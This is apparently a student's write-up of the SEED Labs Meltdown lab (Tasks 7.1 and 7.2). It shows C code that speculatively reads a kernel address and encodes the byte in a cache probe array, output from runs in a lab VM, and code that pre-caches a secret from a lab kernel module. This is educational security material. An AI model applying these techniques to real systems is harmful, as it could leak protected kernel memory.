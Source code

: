 
## 6. Task7: The Basic Meltdown Attack

 How far a CPU can go inthe out-of-order execution depends on how slow the access check, which is done in parallel, is performed. This is a typical race condition situation.  In this task, we will exploit this race condition to steal a secretfrom the kernel.

### 6.1. Task7.1: A Naive Approach

Based on the description, I tried to change the 7 to the kernal_data in the `Meltdown` function.

```shell
$ cat MeltdownExperiment.c
...
void meltdown(unsigned long kernel_data_addr)
{
  char kernel_data = 0;
  // The following statement will cause an exception
  kernel_data = *(char*)kernel_data_addr;     
  array[kernel_data * 4096 + DELTA] += 1;          
}
...
seed@VM:~/.../Meltdown_Attack$ ./MeltdownExperiment 
Memory access violation!
array[0*4096 + 1024] is in cache.
The Secret = 0.
seed@VM:~/.../Meltdown_Attack$ ./MeltdownExperiment 
Memory access violation!
...
```

Sometimes will show the value.

### 6.2. Task 7.2: Improve tha Attack by Getting the Secret Data Cached

Meltdown is a race condition vulnerability, which involves the racing between the out-of-order executionand the access check.  The faster the out-of-order execution is, the more instructions we can execute, and themore likely we can create an observable effect that can help us get the secret. 

- Load the kernel data into a register. At the same time, the security check on such an access is performed.  If the data loading is slower thansecurity check, i.e., when the security check is done, the kernel data is still on its way from the memory tothe register, the out-of-order execution will be immediately interrupted and discarded, because the accesscheck fails. Our attack will fail as well.
- If the kernel data is already in the CPU cache, loading the kernel data into a register will be much faster. 

This lab will get the kernel secret data cached before launching the attack. We let user-level program to invoke a function inside the kernel module. 

```c
  // Open the /proc/secret_data virtual file.
  int fd = open("/proc/secret_data", O_RDONLY);
  if (fd < 0) {
    perror("open");
    return -1;
  }
  int ret = pread(fd, NULL, 0, 0); // Cause the secret data to be cached.
```
